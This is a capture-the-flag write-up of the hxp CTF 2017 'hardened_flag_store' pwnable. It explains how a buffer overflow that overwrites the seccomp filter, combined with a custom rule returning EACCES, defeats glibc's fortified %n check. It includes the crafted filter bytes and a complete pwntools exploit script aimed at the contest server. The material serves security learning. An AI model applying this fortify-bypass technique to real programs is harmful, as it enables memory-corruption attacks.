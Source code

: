 ```yaml
---
title: hxp CTF 2017 -- hardened_flag_store
tags:
  - CTF
  - Pwnable
  - Python
  - BOF
  - format_string
  - seccomp
  - hxp
categories:
  - write-ups
date: 2017-11-20 19:18:00
---
```

**Category:** Pwnable

64 bit ELF with PIE, NX, FULL RELRO enabled 

<!-- more -->  

The program will read a secret string from "secret.txt" and store the string address on stack. Then it will use seccomp to create a whitelist of syscalls. We can analyze the filter by using [seccomp-tools](https://github.com/david942j/seccomp-tools):  

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x06 0x00 0x00 0x00000000  return KILL
```

So now the program are only allowed to use the following system calls: `exit`, `read`, `write`, `open` and `close`.  

After that the program will do the following ( pseudo code ) :  

```c
int cnt = 16;
int has_seccomp = 0;
while (cnt--)
{
    read(0, input, 96); // read user input
    if (!has_seccomp) init_seccomp(); // set up seccomp rule
    len = strlen(secret_string) + 1;
    for ( i = 0LL; ; i++ ) // check if input == secret_string
    {
        if ( len - 1 == i )
            goto LABEL_19;
        if ( secret_string[i] != input[i] )
            break;
    }
    puts("Wrong secret :/");
    if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
    _fprintf_chk(stderr, 1LL, input); // <-- format string vuln
    has_seccomp = 1;
}
```

We can spot a format string vulnerability @ line 19. Although the secret string's address is stored on stack, however the output of `_fprintf_chk` is set to stderr, so we can't use `%s` to leak the secret string.  

But there's still one way to bypass the check. At line 16:  

```c
if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
```

If we can overwrite the first character of the secret string to a null byte, and input a random string, both `strlen(secret_string)` and `i` will be `0`, thus bypass the check and will print out the flag.  

However this will require us to use the `%n` format string payload -- which in this case will be blocked by the seccomp filter:  

```
$ ./flag_store
%n
Wrong secret :/
[1]    5295 invalid system call  ./flag_store
```

Fortunately my teammate found that there's a buffer overflow vulnerability while reading the user input. We can input at most 96 chars to the buffer, while its size is only 32. Moreover, this make us able to overwrite the seccomp rule ! So then we overwrite the seccomp rule with a bunch of null bytes and send the `%n` character:

```
[*] Sending null bytes
[*] Sending fmt payload
[*] Switching to interactive mode
Wrong secret :/
Wrong secret :/
*** %n in writable segment detected ***
[*] Got EOF while reading in interactive
```

OK, so we successfully overwrite the seccomp rule, but still the `%n` payload was blocked by `_fprintf_chk`, which is a more secure version of `fprintf`. At this point I started to think that maybe we need to write some seccomp rules to bypass the format string check.

And so I started reading the [glibc source code](https://code.woboq.org/userspace/glibc/stdio-common/vfprintf.c.html#__readonly_area):

```c
................
    {                                                                      \
      extern int __readonly_area (const void *, size_t)                      \
        attribute_hidden;                                              \
      readonly_format                                                      \
        = __readonly_area (format, ((STR_LEN (format) + 1)              \
                                    * sizeof (CHAR_T)));              \
    }                                                                      \
  if (readonly_format < 0)                                              \
    __libc_fatal ("*** %n in writable segment detected ***\n");              \
}  
```

Hmmmm, looks like we'll have to make `readonly_format >= 0` so it won't call `__libc_fatal ("*** %n in writable segment detected ***\n");`. Let's trace into the [__readonly_area() function](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/readonly-area.c.html#__readonly_area):

```c
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
         available to this process (e.g., because it runs in a chroot
         environment.  Don't fail in this case.  */
      if (errno == ENOENT
          /* The kernel has a bug in that a process is denied access
             to the /proc filesystem if it is set[ug]id.  There has
             been no willingness to change this in the kernel so
             far.  */
          || errno == EACCES)
        return 1;
      return -1;
    }
    ...................
```

Ah ha ! We can see that `__readonly_area` will call `fopen()`, and see if its `errno` is equals to `EACCES` or `ENOENT`. **If so, it will return 1** !! Since we can write our own seccomp rule, we can totally make this happen !

So first we create our own seccomp rule:

```
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok # check the 3rd arg of open()
magic:
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```

Notice that in order to make `open("flag.txt", 0x80000)` ( in the `openflag()` function ) works normally, we'll have to add the rule `A == 0x1b6 ? magic : ok`. This indicates that if the 3rd argument of `open()` equals to `0x1b6`, return `ERRNO(13)`, otherwise allow the system call. I wrote this rule because I found that when `__readonly_area()` calls `fopen ("/proc/self/maps", "rce");`, the 3rd argument of `open()` was exactly `0x1b6`.  

By using the [asm](https://github.com/david942j/seccomp-tools#asm) feature of the seccomp-tools, we can generate the raw bytes of our seccomp rule:

```
$ cat ./rule 
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok
magic:
return ERRNO(13)
ok:
return ALLOW

$ seccomp-tools asm ./rule
" \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"

```

At last we apply our seccomp rule, exploit the format string vulnerability to bypass the check and get the flag:

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

# from brucepwn import *

HOST = "35.198.105.104"
PORT = 10000
ELF_PATH = "./flag_store"
LIBC_PATH = ""

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = elf.libc if not LIBC_PATH else ELF(LIBC_PATH)
if not libc: log.warning("Failed to load libc")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = elf.process() # elf.process(argv=[argv1, argv2,...])

    payload = "\x00"*0x20
    payload += " \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
    print "len:", len(payload)
    assert len(payload) <= 96
    r.sendline(payload)
    time.sleep(1)
    r.sendline("%128c%128c%hhn")
    time.sleep(1)
    r.sendline("1")
    r.interactive()


```

flag: `hxp{d0n7_w0rry_glibc_1_571ll_l0v3_y0u}`


First blood on this one ! WOOHOO ! 😎